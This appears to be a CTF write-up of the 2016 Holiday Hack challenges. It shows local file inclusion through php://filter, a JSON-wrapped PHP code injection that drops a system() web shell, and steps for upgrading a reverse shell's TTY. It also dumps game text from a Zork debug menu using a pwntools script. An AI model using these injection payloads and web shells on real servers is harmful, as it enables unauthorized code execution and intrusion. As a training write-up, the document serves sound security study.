HomeQuotes.find().fetch() - Click on the last object (“Just Ad It!”), to bring the DOM Inspector up allowing us to see all the variables including a link to the audio file. 
Exception Handling Server
When SantaGram encounters an internal error, it automatically sends some information over to the exception handling server. This crashdump gets written to the server with a .php extension. Additionally, the php script which writes the crashdump is vulnerable to LocalFileInclusion which allows us view the source to the crashdump file. Due to the crashdump file being a php script, this allows us to craft a dump which will cause remote code execution.
- Get an Android VM and Burpsuite running, just like in dev and ads.
- Play around with the app until you see a request in Burp go to the exception handling server. Mine got sent when adding a friend. 
- Send the request to repeater and examing the ouput, I noticed the directory it write to and the filename.
- Play around with the parameters, “Operation: WriteCrashDump” looked interesting. I erased WriteCrashDump from my request, leaving it to be “Operation”:””. This returned an error message stating there was a “ReadCrashDump” parameter. 
- Sending Operation:ReadCrashDump, told us we also need the parameter “CrashDump” 
- I did what the error message stated and crafted the JSON Request:
{"operation":"ReadCrashDump","data":{"crashdump":"docs/crashdump-UZilrv.php"}}, which returned a “Duplicate php extesion”. So I removed the php extension from my request and got the dump file. - I used PHP Filters to convert the crashdump to base64, which would allow me to view the source of the crash dump.
{"operation":"ReadCrashDump","data":{"crashdump":"php://filter/convert.base64-encode/resource=crashdump-UZilrv"}}. The response was along the lines of:1 2 3 4 5 6 7
<?php print('{ "message": "Index: 0, Size: 0", "lmessage": "Index: 0, Size: 0", "model": "Android SDK built for x86", "sdkint": "25", "device": "generic_x86", }');
- The Crashdump does
print({'$userinput'});, so if our crashdump can write close off the print statement we should be able to inject code after. So if we wrote}');phpinfo();print('{to the crashdump should look like:1 2 3 4
<?php print('{}'); phpinfo(); print('{}'); ?>
- The above is not formatted as a JSON Query (ex: {“variable”:”contents”}) and will get rejected by the webserver. To get around this I formatted the contents of my request to still appear as valid json (ex:
{"operation":"WriteCrashDump","data":{"}');phpinfo();print('{":""}}. - Then when navigating to the crashdump the above request makes, I get the phpinfo page! Note: I generally use phpinfo before attempting any type of shell, due to it having a higher probability of working and giving some valuable information. There is a chance a shell will silently fail due to PHP Configuration, SELinux, etc. which may cause me to overlook a critical vulnerability. So if phpinfo() works and system() does not, I will avoid system calls and start writing my exploits purely in php.
- Now that code injection is verified lets try dropping a shell that will allow us to run shell commands:
{"operation":"WriteCrashDump","data":{"}');echo system($_GET['cmd']);print('{":""}}. - My shell was now uploaded to: docs/crashdump-4W9V7e.php – so browsing to http://ex.northpolewonderland.com/docs/crashdump-4W9V7e.php?cmd=ls resulting in an ls being ran.
- I found the mp3 by replacing ls with
find+/+-name+*.mp3, turns out the mp3 file was within the http directory.
PHP Filters can also be used to attack file upload forms. The 2016 Plaid CTF ran a similiar challenge where you used php filters to upload code to the “Web Pixel Shop”. Additionally, SecureUsGlobal ran a file upload challenge (PandaUploader) and put out a great write-up. Unfortunately, they took down their web application and didn’t post the source code.
Exception – Shell It!
The above example just has us running system commands one at a time, which is very slow and makes it difficult to obtain a proper TTY which allows us to run commands such as sudo/su/etc. My favorite reverse php shell comes from PentestMonkey.net and is conveniently located on Kali at /usr/share/webshells/php/php-reverse-shell.php. It should also be noted that reverse shells do require a route-able IP Address, if you don’t have one just spin up an Amazon EC2 Micro Instance. But if you don’t want to do that, feel free to use something like Weevely to get a “shell like” interface.
In order to get shells, we need to ensure our payload remains to be a valid JSON. One of the troublesome characters that will break this is a single quote. I got around this by just base64 encoding my webshell then putting an eval(base64_decode(‘base64-encoded-payload-here’)). I highly recommend watching the video, as I demo a technique to fix the TTY Enough to restore hotkey functions in a reverse shell. The steps I use to do this are:
- Get Reverse Shell
- python -c ‘import pty; pty.spawn(“/bin/bash”)’
- Background the shell via Ctrl+Z
- Tell your terminal to not do any “Special Processing”
stty raw -echo - Bring the Reverse Shell back by entering the command
fg. Note: Because of the -echo, you will not see yourself typing fg - Should have an upgraded shell that supports all hotkeys.
- If you want to go the extra mile, you can manually export variables such as $TERM, $LINE, $COLUMN but I find that to be not needed in most cases.
Dungeon Server
This server was so simple, I’m almost positive I am missing something as there was really no exploit. An elf gave us a text based dungeon game, saying that it is near impossible to beat. Running the game and googling the first line (You are in an open field west of a big white house with a boarded ), revealed that the game was ZORK. Going to Zork’s github page and looking at the source revealed that typing GDT in game, would bring you to a debug menu.
Once in the debug menu I ran help, and saw there was a command “DT” which could extract text from the game. I tested by extracting the first line of the game, then was curious what happened when I did a high number.
1
2
3
4
5
6
7
8
9
10
11
12
13
root@kali:~/dungeon# ./dungeon
chroot: No such file or directory
Welcome to Dungeon. This version created 11-MAR-78.
You are in an open field west of a big white house with a boarded
front door.
There is a small wrapped mailbox here.
>GDT
GDT>DT
Entry: 1
Welcome to Dungeon. This version created 11-MAR-78.
GDT>DT
Entry: 99999
Segmentation fault
My guess was the link to the audio file was somewhere within the dungeon text, but I had no idea how high DT went. So I used the python module pwntools to write an expect script to extract all the dungeon text. The reason I used pwntools, instead of the regular python expect library was that incase this challenge involved some debugging, I’d already have the skeleton of my exploit script written.
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
import sys
from pwn import *
binary = './dungeon'
p = process(binary)
p.recvuntil('>')
p.sendline("GDT")
p.recvuntil('GDT>')
i=0
while True:
i+=1
p.sendline('DT')
p.recvuntil('Entry')
p.sendline(str(i))
print i
print p.recvuntil('GDT>')[:-5]
When executing “DT 1024”, the elf tells us to try the online version for the true prize. So I ran nmap against dungeon.northpolewonderland.com and saw I was able to play the game by telnetting to port 11111. Luckily for us the online mode also had GDT Mode enabled, so grabbing the audio file was as simple as entering DT 1024.